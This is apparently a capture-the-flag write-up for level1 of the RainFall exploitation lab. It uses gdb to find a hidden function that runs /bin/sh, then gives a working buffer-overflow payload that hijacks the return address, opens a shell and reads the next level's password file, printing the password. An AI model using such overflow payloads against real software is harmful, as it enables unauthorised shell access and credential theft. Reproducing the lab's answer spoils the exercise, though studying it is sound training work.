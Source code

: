 # Gdb writeup

```bash
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
We can see that there is a function called run, let's inspect it

```bash
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave  
   0x0804847f <+59>:    ret    
End of assembler dump.
```

We can see that at <+46> the function is giving an addess to esp, let's see what's on it
```bash
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```

We can see that function is calling `/bin/sh` so let's call that function
The adress that is used to call this function is written on the run instruction
```bash
   0x08048444 <+0>:     push   %ebp
```
We will have to introduce it after the overflow to produce the buffer overflow exploit
```bash
level1@RainFall:~$ python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
```
It's working, but we're getting a segfault so we will run it on a subshell and use cat
```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')";cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
